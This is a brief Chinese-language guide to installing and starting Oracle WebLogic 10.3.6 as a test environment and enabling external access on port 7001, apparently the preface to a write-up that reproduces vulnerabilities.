2. http://mp.weixin.qq.com/s?__biz=Mzg4MDY1MzUzNw==&mid=2247494033&idx=1&sn=be8ec955c47b22c84e4250ace155a4db&chksm=cf734c1ff804c5091e89a889525936d4add2a9fdd4f877a0c9858f46145984fcb2d5af4e4e12&mpshare=1&scene=24&srcid=0301irDeGNPgUedtGR0g03di&sharer_sharetime=1677667954009&sharer_shareid=568a489804fc812c56248f1587a655e7#rd

------

# Weblogic安装配置

默认端口:7001

测试环境版本：10.3.6 

下载地址：https://download.oracle.com/otn/nt/middleware/11g/wls/1036/wls1036_win32.exe? 

AuthParam=1559386164_88cf328d83f60337f08c2c94ee292954

下载完成后双击运行，一直点下一步就ok了。 


安装完成之后，在`**C:\Oracle\Middleware\user_projects\domains\base_domain**`这个目录双击`**startWebLogic.cmd**`启动Weblogic服务。

浏览器访问：http://127.0.0.1:7001/, 界面上出现**Error 404--Not Found**，即启动成功。

设置外网访问，在 域结构 -> 环境 -> 服务器 

右边选择相应的Server（管理服务器），打开进行编辑，在监听地址:中填入0.0.0.0，保存后，重启Weblogic服务器即可。 



以下复现若无特别说明均采用Weblogic 10.3.6 

